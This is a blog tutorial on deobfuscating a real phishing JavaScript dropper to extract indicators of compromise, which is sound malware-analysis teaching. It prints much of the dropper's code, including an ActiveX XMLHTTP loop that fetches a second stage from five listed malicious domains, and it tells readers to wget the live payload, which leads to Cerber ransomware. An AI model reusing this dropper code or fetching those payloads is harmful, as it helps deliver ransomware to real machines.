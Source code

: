 ```yaml
---
layout: post
title:  "Simple Js deobfuscation 1"
date:   2017-08-28 12:00:00 +0700
categories: Javascript deobfuscation
---
```


A first example of javascript deofuscation for IOC extraction.

## First hand on javascript deobfuscation
For this excercice we will use a really simple real javascript that was used on mass phishing campaign to drop payload into the target's computer.
You can find the malicious javascript here :

On hybrid-analysis :

**hash** : 0413a0c095230c5a1d9fd24c5526e381

(You need to have a free account on hybrid-analysis to be able to download sample) This website is really interessting if you are looking for sample to analyse :)
[Link to the Hybrid-analysis sample]: https://www.hybrid-analysis.com/download-sample/90d8e7b7149fff458d5ce7adc173dcf323788460da33247be9718f8930edc8a3?environmentId=100

### Take care ! This sample is real and can be dangerous if you manipulate it in a real environment :)
I'm going to do this analysis on a linux system (SIFT workstation).

I'have installed rhino a little cli javascript shell. Really useful :)

But you can do big part of this exercice with Firefox using the console available when you type F12.
First check the file type :
{% highlight shell %}
file 0413a0c095230c5a1d9fd24c5526e381 0413a0c095230c5a1d9fd24c5526e381: ASCII text, with CRLF line terminators
{% endhighlight %}
... Nothing much, ok it's an ASCII text file we are safe to open it into any text editor (VIm, emacs, leafpad, nano ...).
Just by opening you see that the obfuscation used here is not advanced :
{% highlight javascript %}
var sder = "P"; var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
{% endhighlight %}

 We can see severals variables declaration, some of them are really self explanatory

* x : variable contains some domain/subdomain name. You already find your IOC ;)

* t4 : contains "http" must be used to declare the url where is stored the payload :)

* g2 : is pretty easy to understand to, just a concatenation of strings and another variable.

* pi6dnz : is more difficult but when you look at the type of character used you can see that they are hexadecimal value. If you look at your ascii table ...
{% highlight shell %}
man ascii
{% endhighlight %}

You can see that the hexadecimal value 70 = p 65 = e 6E = n
...p e n... ok it might be used somewhere else later ..
* m : this one is the hardest to understand, we will see it later.

Ok let's use rhino on this small parts.

If you don't have rhino you can install it on a ubuntu based distro just by typing :

{% highlight shell %}
apt-get install rhino
{% endhighlight %}

Then just start it :

{% highlight javascript %}
rhino js >
{% endhighlight %}

Just take the variable you want and copy paste it.
I'm going to use t4 and pi6dnz and print them using the print(); function (Simple :p)

{% highlight javascript %}
js> var pi6dnz = "\x70"+"\x65\x6E";
js> var t4 = "ht"+"tp";
js> print(t4);
http
js> print(pi6dnz);
pen
{% endhighlight %}

Ok i think you understand the concept now.
Let's continue with the other part of the js

{% highlight javascript %}
for (var i=0; i<x.length; i++)
{
var vDJmB = function(){ return new ActiveXObject(g2); }(); var e = vDJmB; try {
var raspbna2s=["\x6F"+pi6dnz]; e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false); e.send();
}
{% endhighlight %}

First we enter in a for loop with i incrementing.

Then a function declaration creating an ActiveXObject with the parameter g2. If you played a little bit with rhino you will find that :

{% highlight javascript %}
js> print(g2); Msxml2.XMLHTTP
{% endhighlight %}

Just after it, we can see the creation of an object called e.
{% highlight javascript %}
var e = vDJmB;
{% endhighlight %}
So e is a ActiveXObject.


Here we enter in a try and then a new declaration of variable :
{% highlight javascript %}
var raspbna2s=["\x6F"+pi6dnz];
{% endhighlight %}

We find pi6dnz back, 6F is the ascii for o so o + pen = .... ? ;)

And then the big query :

{% highlight javascript %}
e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false);
{% endhighlight %}

If you try to print this with rhino here there will be 2 little trick:
First you need to remove the e because it's a object. You also need to change i to the number 0 (it's related to the domain name list that we saw earlier. It's an array so incrementing i will change the domain name requested.

And there is also the false at the end to remove.


If you go to msdn.microsoft.com about the function used here you will find your scheme
{% highlight javascript %}
var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP.3.0"); xmlhttp.open("GET","http://localhost/books.xml", false);
xmlhttp.send();
{% endhighlight %}

In rhino add all variable or create a little js script :

{% highlight javascript %}
var sder = "P";
var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyCAIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
var raspbna2s=["\x6F"+pi6dnz];
var i = 0;
print(raspbna2s[0] + ""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?" + m);
{% endhighlight %}

Tada, you will see the full url requested by the javascript.

After this the script try to receive what was requested.

You will need to download with a wget the malicious script to continue :)

With a simple wget you can download the payload.

I you open it with vim you can see we have more obfuscated js.

Go back to your first js and let's look at the operation done on the answer of the server (the url that you downloaded trough wget.

{% highlight javascript %}  
reqty(e.responseText.split(m).join(zaima.substring(2,3)));
{% endhighlight %}

We can see that we have some kind of substition of the m variable and added at the end the third character of the variable zaima (that is a).

We can do the same kind of substition using vim and sed. Or any text editor that allow to replace character by other :)

So we have to replace LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k by a

{% highlight shell %}
vim JS.txt
:s/LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k/a/g
{% endhighlight %}

You will then have a JS with lots of variable incrementation var NXmef= "...." var NXmef+="..."
Lots of stuff are added to the string.
To easilty see what is inside this long string just check a the end of the JS. change the eval(NXmef) by a simple print

{% highlight javascript %}
print(NXmef);
{% endhighlight %}

The unobfuscated Js code will then be available with new IOC (new urls used :) ).
This javascript code download a executable that is a ransomwar : cerber.

